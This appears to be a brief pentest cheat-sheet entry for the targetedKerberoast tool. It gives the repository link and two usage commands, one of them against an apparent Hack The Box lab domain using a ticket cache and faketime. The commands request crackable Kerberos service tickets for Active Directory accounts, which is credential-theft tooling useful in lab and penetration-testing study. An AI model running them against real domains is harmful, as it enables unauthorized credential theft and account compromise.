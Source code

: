 # targetedkerberoast

## Overview

https://github.com/ShutdownRepo/targetedKerberoast

## Usage

```shell
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

With a TGT:

```shell
export KRB5CCNAME=~/workspace/tmp/voleur/svc_ldap.ccache
faketime "$(ntpdate -q voleur.htb | awk '{print $1" "$2}')" python targetedKerberoast.py -k --dc-host dc.voleur.htb -u svc_ldap -d voleur.htb
```